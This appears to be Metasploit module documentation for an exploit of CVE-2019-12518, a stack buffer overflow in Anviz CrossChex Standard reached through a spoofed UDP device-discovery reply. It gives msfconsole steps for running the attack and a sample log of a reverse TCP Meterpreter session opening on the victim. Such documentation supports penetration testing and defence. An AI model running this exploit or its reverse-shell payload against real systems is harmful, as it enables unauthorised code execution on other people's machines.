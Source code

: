 ## Introduction

CrossChex is a personnel identity verification, access control, and time
attendance management system compatible with Windows 7,8 & 10. It uses UDP
broadcasts to identify and connect with Access Control devices on a network. The
code used to handle a response from an Access Control device is vulnerable to a
Stack Buffer Overflow attack on CrossChex versions
`Crosschex Standard x86 <= V4.3.12`. Tracked as CVE-2019-12518, and as such
permits arbitrary code execution.

The code used to overflow the Stack Buffer and code an attacker wishes to be
executed as a result of the exploit are sent in a single UDP packet as a
response to the CrossChex broadcast. As both the exploit and the payload must be
contained inside a single UDP packet, an exploit has a maximum size of
`8947 Characters`.

This module exploits CVE-2019-12518 by listening for a CrossChex "new device"
broadcast for a given number of seconds (`TIMEOUT`). It then responds with a UDP
packet containing shellcode for both the Buffer Overflow exploit and the
attacker's chosen payload. The `Space` payload option ensures no payload of too
large a size is used to ensure successful exploitation. If a broadcast is not
detected within the given `TIMEOUT`, the module exits with a warning.

## Verification Steps

1. Start `msfconsole`
2. `use windows/misc/crosschex_device_bof`
3. `set LHOST vboxnet0`
4. `run`
5. Open CrossChex
6. Navigate to Device > Add
7. Select `Search`
8. Verify payload executes correctly

## Options

1.  `TIMEOUT` Seconds module waits for broadcast, defaults to `1000`.
2.  `CHOST`. Address UDP packet response is sent from. Defaults to `0.0.0.0`.
3.  `CPORT`. Port UDP packet response is sent from. Defaults to `5050` as
    CrossChex expects communication from this port.

## Compatible Payloads

Any basic x86 windows payload.

## Payload Options

As above.

## Scenarios

```
msf5 exploit(windows/misc/crosschex_device_bof) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] CrossChex broadcast received, sending payload in response
[*] Payload sent
[*] Sending stage (180291 bytes) to 192.168.56.3
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.3:49160) at 2020-02-10 16:21:13 +0000

meterpreter > ls
Listing: C:\Program Files\Anviz\CrossChex Standard
==================================================
...
```

## References

1. <https://cvedetails.com/cve/CVE-2019-12518>
2. <https://www.0x90.zone/multiple/reverse/2019/11/28/Anviz-pwn.html>
3. <https://www.exploit-db.com/exploits/47734>

